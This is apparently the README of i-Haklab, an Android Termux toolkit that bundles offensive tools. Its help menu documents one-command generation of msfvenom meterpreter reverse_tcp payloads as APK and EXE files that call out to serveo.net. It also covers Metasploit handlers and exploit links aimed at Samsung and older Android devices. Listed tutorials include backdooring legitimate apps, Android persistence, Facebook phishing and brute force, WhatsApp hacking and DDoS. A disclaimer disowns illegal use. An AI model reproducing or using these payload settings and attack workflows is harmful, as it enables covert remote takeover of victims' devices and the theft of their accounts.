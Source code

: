 # i-Haklab v.1.0 2019 by @Ivam3
	DISCLAIMER
Please do not use in military or secret service organizations, or for illegal purposes.
Ivam3 is not responsible for the misuse that can be given to everything that this laboratory entails

To get help about how to use it join to irc chat in i-Haklab command
		: $ i-Haklab weechat

To report some issues join to >> https://t.me/Ivam3_Bot


- i-Haklab Is a hacking laboratory that contains open source tools recommended by Ivam3. It use oh my fish insteractive shell, to get help about its use going to >> https://fishshell.com/docs/current/tutorial.html.

# Process during installation

i-haklab will ......
- check if your android device has some root, if so, it will install the sudo command.
- check if termux has permission to access the external memory, thus, in there it will create a directory called homeroot and there will install the tools and/or frameworks. otherwise they will be installed in the directory /data/data/com.termux/files/home. By the way, in case of Termux is installed in a second partition of your external memory those will be in /data/sdext2/data/com.termux/files/home.
- Once the installation of the tools and/or frameworks is finished, i-Haklab will ask you to configure your password, security question and answer, which will be necessary to start session in i-Haklab.
- i-Haklab has the "lock" command which will block the screen and it will only be unlocked with said password or answering the security question. It is worth mentioning that these access codes are encrypted for your security
- Coupled with it i-Haklab has an automation command for updating, installing and uninstalling tools and books, and executing hacking processes under a single command. under the command we will find the weechat argument, with which you can join the official IRC Ivam3byCinderella ((Internet Relay Chat (IRC) is an application layer protocol that facilitates communication in the form of text. The chat process works on a client/server networking model)).

To see the main menu Just execute from the command line 
		: $ i-Haklab --help

# i-Haklab help menu

Syntax: i-Haklab [-arg-] [-option-]

Arguments  |    Options     |    Description
╰─help─────➤────────────────➤ Show this help menu
╰─list─────➤────────────────➤ List all available tools/frameworks
╰─show─────➤──tools/books───➤ Show tools details and books availables
|   ╰──────➤──tutorials/QG──➤ Show tutorials and Quick Guides availables
╰─install──➤───tool/book────➤ Install tools or books
╰─remove───➤─────tool───────➤ Remove tools
╰─weechat──➤────────────────➤ Connect with irc Ivam3byCinderella chat
╰─update───➤────────────────➤ Update i-Haklab
╰─upgrade──➤────────────────➤ upgrade i-Haklab by installing/upgrading tools
╰─version──➤────────────────➤ Show i-Haklab version installed
|       |        |
[--] Automatitation Arguments [--]
Arguments  |    options     |    Description
╰─handler──➤──file.rc name──➤ Start handler on msfconsole with previous setting
╰───apk────➤──inlan/outlan──➤ Create a coded payload apk with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=android/meterpreter/reverse_tcp apk=inlan.apk
|                     ╰─────➤ LPORT=48263 LHOST=serveo.net apk=outlan.apk
|                             Payload=android/meterpreter/reverse_tcp
╰─paylink──➤─pc/nexam/soa5──➤ Create a link payload with handler
|             ╰───|────|────➤ For targets [0]generic, [1]windows, [2]macOS and [3]linux
|                 |    |      example: i-Haklab paylink pc 2
|                 ╰────|────➤ For targets [0]nexxus and [29]samsung
|                      |      example: i-Haklab paylink nexam 29
|                      ╰────➤ For android operative system equal at version 5 to down
╰──payexe──➤──inlan/outlan──➤ Create a coded payload .exe with msfvenom
|               ╰─────|─────➤ LPORT=4546 Payload=windows/meterpreter/reverse_tcp file=inlan.exe
|                     ╰─────➤ LPORT=48263 Payload=windows/meterpreter/reverse_tcp
|                             LHOST=serveo.net apk=outlan.apk
╰─serveo───➤────────────────➤ Start a SSH client to request TCP port forwarding from the server and proxy
|    ╰─────➤────domain──────➤ Start a SSH client to request port forwarding with especific dns

**** If you want to suggest some command do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Tools or frameworks available in i-Haklab

01: D-TECT
02: DoS-A-Tool
03: ExiF
05: binchecker
06: blackbox
07: converter
08: adminpanel
09: wpscan
10: aircrack-ng
11: androbugs
12: beef
13: bettercap
14: cc-genpro
15: java
16: credmap
17: crunch
18: embed
19: evilurl
20: fbbrute
21: fbi
22: fuzzdb
23: hakku
24: hatcloud
25: hunner
26: ipgeolocation
27: metasploit
28: ngrok
29: nikto
30: pasterm
31: youtube-dl
32: php-server
33: pybelt
34: recon-ng
35: recondog
36: redhawk
37: routersploit
38: seeker
39: shellphish
40: shellsploit
41: spotichk
42: sqliv
43: sqlmap
44: ssh-server
45: theharvester
46: hydra
47: tor

**** If you want to suggest some tool, do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Games available in i-Haklab

01: 2048
02: angband
03: brogue     
04: curseofwar
05: gnugo
06: greed
07: mathomatic
08: moon-buggy
09: snakegame
10: solitaire

**** If you want to suggest some game do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Books available in i-Haklab

01: Aprende html
02: Chema alonso coleccion
03: Comandos basicos linux
04: Cracking sin secretos
05: Conviertete en hacker by incube2
06: Ethical hacking
07: Hacking con python
08: Hacking etico 101
09: Hacking mexico seguridadofensiva nv.1
10: Hacking the hacker
11: Manual hacking dispositivos moviles
12: Metasploit para pentesters
13: My sql
14: Nmap by computaxion
15: Programa en C
16: Programa en C++
17: Programa en bash
18: Programacion en perl
19: Programacion en php
20: Programacion en ruby
21: Python para todos

**** If you want to suggest some book do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot


# Tutorials available in i-Haklab

01: TERMUX TIPS Cap.1
02: TERMUX TIPS Cap.2
03: TERMUX TIPS Cap.3
04: TERMUX TIPS Cap.4
05: TERMUX: Aprendamos como ejecutar comandos
06: TERMUX: Combinación de comandos
07: TERMUX: Instalando el comando Sudo
08: TERMUX: Modifica y/o personaliza el banner de iniciO
09: Termux - Creando contraseña de acceso (logging banner)
10: TERMUX: Youtube-DL
11: METASPLOIT: Instalación
12: METASPLOIT: RuGiR
13: METASPLOIT: Hacking Android inLAN
14: METASPLOIT: Persistencia en Android
15: METASPLOIT: Hacking Android outLAN
16: METASPLOIT: Hackeado Android inLAN con paylink
17: METASPLOIT: EMBED Inyectando payload en app legítima inLAN
18: METASPLOIT: EMBED Inyectando payload en app legítima outLAN
19: Dos-A-TooL - Ataque distribuido de denegación de servicio
20: METASPLOIT - Ataque distribuido de denegación de servicio
21: Kali-nethunter: Como instalarlo(no root)
22: HACKING WHATSAPP 1ra parte
23: HACKING WHATSAPP 2da parte
24: SETOOLKIT - Instalacion
25: PHISHING : Weeman Framework(1ra parte)- Instalación
26: PHISHING : Weeman Framework(2da parte)- Hacking Facebook inLAN
27: PHISHING : Weeman Framework(3ra parte) - Hacking Facebook - Asignacion de dominio(DNS)
28: NGROK : Instalacion
29: PHISHING : WEEMAN (4ta parte) - Hacking Facebook outLAN
30: PHISHING: Shellphish Framework - Hacking redes sociales
31: CRUNCH - Crear diccionearios para ataques de fuerza bruta
32: FBBRUTE - Ataque de fuerza bruta a FACEBOOK
33: FBI - Como sustraer información de un Facebook Hackeado
34: IPGEOLOCATION: Geolocalizacion de IP's en Google Maps
35: ExiF - Extrayendo Meta Datos
36: BETTERCAP - Instalación
37: i-Haklab - TUTORIAL
38: CURSO DE PROGRAMACIÓN EN BASH 1ra Parte
39: CURSO DE PROGRAMACIÓN EN BASH 2da Parte
40: CURSO DE PROGRAMACIÓN EN BASH 3ra Parte

**** If you want to suggest some tutorial do it in the section of suggestions of my bot in https://t.me/Ivam3_Bot



# INSTALLATION

Whit script Ivam3-Haklab

- download the script Ivam3-Haklab in 
		: https://shrt.am/
- move it to Home directory
		: $ mv <downloading directory> $HOME
- execute it by command 
		: $ bash Ivam3-Haklab

Cloning it from Github

- Clone it to home directory
		: $ git clone https://github.com/ivam3/i-Haklab.git $HOME/i-Haklab
- Go to i-Haklab directory
		: $ cd $HOME/i-Haklab
- Give permissions needed
		: $ chmod 711 -R *
- Run the setup file
		: $ bash setup




*** HAVE A NICE HACKING DAY!!!!
# 						@Ivam3
